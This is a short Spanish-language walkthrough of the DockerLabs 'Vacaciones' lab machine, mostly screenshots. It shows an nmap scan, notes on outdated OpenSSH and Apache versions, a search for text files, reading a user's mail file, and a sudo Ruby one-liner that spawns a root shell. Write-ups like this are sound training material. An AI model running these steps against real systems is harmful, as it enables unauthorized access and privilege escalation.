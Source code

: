 
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_001.png)

Realizamos el escaneo con Nmap sobre la dirección IP 172.17.0.2 para revelar resultados.
```
nmap -p- -sS -sCV -T4 -n -Pn 172.17.0.2
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_002.png)

<h3>Análisis de los Servicios Abiertos</h3>
SSH (Puerto 22):

La versión de OpenSSH detectada es relativamente antigua (7.6p1), lo que podría ser vulnerable si no está debidamente actualizada.

HTTP (Puerto 80):
El servidor web Apache 2.4.29 también es una versión que podría tener vulnerabilidades, ya que ha habido actualizaciones importantes desde entonces. 

Lista a seguir:<br>
investigar si existen vulnerabilidades para el puerto 22
investigar posibles exploits o revisar configuraciones incorrectas en el puerto 80

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_0021.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_003.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_004.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_005.png)
```
find / -name "*.txt" 2>/dev/null
```

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_006.png)
```
cat /var/mail/camilo/correo.txt
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_007.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_008.png)
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_009.png)
